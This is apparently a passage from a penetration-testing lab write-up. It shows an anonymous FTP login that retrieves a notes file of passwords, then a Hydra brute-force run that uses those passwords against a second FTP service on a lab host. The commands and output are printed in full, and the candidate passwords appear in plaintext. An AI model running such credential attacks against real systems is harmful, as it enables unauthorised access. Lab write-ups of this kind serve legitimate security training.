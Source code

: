 {% code fullWidth="true" %}
```
ftp 10.129.201.127 30021
Connected to 10.129.201.127.
220 ProFTPD Server (Internal FTP) [10.129.201.127]
Name (10.129.201.127:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||38341|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Apr 18  2022 simon
226 Transfer complete
ftp> cd simon
250 CWD command successful
ftp> dir
229 Entering Extended Passive Mode (|||46356|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 ftp      ftp           153 Apr 18  2022 mynotes.txt
226 Transfer complete
ftp> get mynotes.txt
local: mynotes.txt remote: mynotes.txt
229 Entering Extended Passive Mode (|||20176|)
150 Opening BINARY mode data connection for mynotes.txt (153 bytes)
100% |***********************************************************************|   153        3.09 KiB/s    00:00 ETA
226 Transfer complete
153 bytes received in 00:04 (0.03 KiB/s)
ftp> byte
?Invalid command.
ftp> exit
421 Idle timeout (600 seconds): closing control connection
```
{% endcode %}

We obtained 'mynotes.txt' which contains passwords. We will utilize these passwords to conduct a brute-force attack on the second FTP server.

{% code fullWidth="true" %}
```
hydra -l simon -P ./mynotes.txt ftp://10.129.201.127:2121/ -vV
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-04 06:15:56
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ftp://10.129.201.127:2121/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.129.201.127 - login "simon" - pass "234987123948729384293" - 1 of 8 [child 0] (0/0)
[ATTEMPT] target 10.129.201.127 - login "simon" - pass "+23358093845098" - 2 of 8 [child 1] (0/0)
[ATTEMPT] target 10.129.201.127 - login "simon" - pass "ThatsMyBigDog" - 3 of 8 [child 2] (0/0)
[ATTEMPT] target 10.129.201.127 - login "simon" - pass "Rock!ng#May" - 4 of 8 [child 3] (0/0)
[ATTEMPT] target 10.129.201.127 - login "simon" - pass "Puuuuuh7823328" - 5 of 8 [child 4] (0/0)
[ATTEMPT] target 10.129.201.127 - login "simon" - pass "8Ns8j1b!23hs4921smHzwn" - 6 of 8 [child 5] (0/0)
[ATTEMPT] target 10.129.201.127 - login "simon" - pass "237oHs71ohls18H127!!9skaP" - 7 of 8 [child 6] (0/0)
[ATTEMPT] target 10.129.201.127 - login "simon" - pass "238u1xjn1923nZGSb261Bs81" - 8 of 8 [child 7] (0/0)
[STATUS] attack finished for 10.129.201.127 (waiting for children to complete tests)
```